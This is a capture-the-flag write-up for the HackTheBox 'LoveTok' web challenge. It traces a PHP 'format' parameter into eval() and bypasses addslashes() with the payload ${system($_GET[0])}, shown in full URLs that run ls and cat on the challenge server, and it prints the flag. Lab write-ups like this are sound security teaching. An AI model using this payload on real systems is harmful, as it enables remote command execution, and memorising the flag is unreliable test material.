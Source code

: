 # LoveTok
> Write-up author: jon-brandy
## DESCRIPTION:
True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking 
your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. 
This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). 
Come and check it out, but don't try to cheat love because love cheats back. 💛

## HINT:
- NONE
## STEPS:
1. Open the host given.

```
http://178.62.88.144:30462/
```

![image](https://user-images.githubusercontent.com/70703371/208852818-eff7e27c-150b-4ef1-b1b9-7f0da03f284c.png)


2. When i clicked `try again`, new date & time displayed.

![image](https://user-images.githubusercontent.com/70703371/208853461-ab996aa8-b721-4125-af5c-c3cb13181231.png)


3. Notice we have `format` parameter.

![image](https://user-images.githubusercontent.com/70703371/208853448-88975e17-dbb5-46a5-bdc3-49d3540a1f92.png)

4. Anyway let's `unzip` the zip file given.

![image](https://user-images.githubusercontent.com/70703371/208854243-710879f2-d77f-40e6-a42f-10856b128208.png)


5. Jump to the extracted folder.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208854373-8d0707b3-beaf-40e2-9d71-87b266095bab.png)


6. Since i don't want to exploit in local, so let's jump to the `challenge` directory to find the source code.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208932357-b51820a1-f346-4408-a9ec-d156f5525a10.png)


> INDEX.PHP

```php
<?php 
date_default_timezone_set('UTC');
spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
$router = new Router();
$router->new('GET', '/', 'TimeController@index');
$response = $router->match();
die($response);
```

7. Based from the `index.php` file, i let's open the `controller` directory.
8. Great we found the time controller source.

> TIMECONTROLLER.PHP

```php
<?php
class TimeController
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
```

9. Based from it we know that the value of `format` parameter passed to the TimeModel class.
10. Now let's check the `TimeModel.php` file in the **models** directory.


> TIMEMODEL.PHP

```php
<?php
class TimeModel
    public function __construct($format)
    {
        $this->format = addslashes($format);
        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }
    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }

```

11. Based from it, we know that the format parameter is sanitized by the `addslashes()` function.
12. The `addslashes()` function add a forward slash in front of these characters:

```
", ', \, NULL BYTE
```

13. At the `getTime()` function we realize that out input is executed inside the `eval()` function. 
14. `eval()` function is a vuln in php, because the attacker can utilize the func to do RCE to get the flag.
15. However, there's an `addslashes()` func, so we can't add the quote and do a system call resulting in RCE.
16. So i did a small outsource about how to bypass the `addslashes()` function.

```
THE LINK
https://www.programmersought.com/article/30723400042/
http://www.securityidiots.com/Web-Pentest/SQL-Injection/addslashes-bypass-sql-injection.html
```

17. When i add `${system("ls")}` as the format value, obviously it won't do anything.
18. Based from the article i read, we can utilize the GET parameter. Since `%_GET` is a dictionary, the key can be a number, hence we can add the 2nd parameter to be `anynum` equal to cat, ls, etc.
19. So our  shall look like this:

```php
${system($_GET[0])}&0=ls
```

> COMPLETE URL

```
http://178.62.88.144:30462/?format=${system($_GET[0])}&0=ls+--+/
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208931342-4fc7e15f-6190-4a02-93dd-04c6cc8da9ba.png)


20. Notice there's a flag file (?)

![image](https://user-images.githubusercontent.com/70703371/208931609-92b0f8d3-ba30-47b8-adb9-fe2da131f767.png)


21. Let's cat the file.

```php
${system($_GET[0])}&0=cat+/flagtERAM+--+/
```

> COMPLETE URL

```
http://178.62.88.144:30462/?format=${system($_GET[0])}&0=cat+/flagtERAM+--+/
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208932048-6effbed6-c242-4869-b2e3-f9afbd4840a2.png)


22. Got the flag!


## FLAG

```
HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}
```


## LEARNING REFERENCES

```
http://www.securityidiots.com/Web-Pentest/SQL-Injection/addslashes-bypass-sql-injection.html
https://www.programmersought.com/article/30723400042/
```


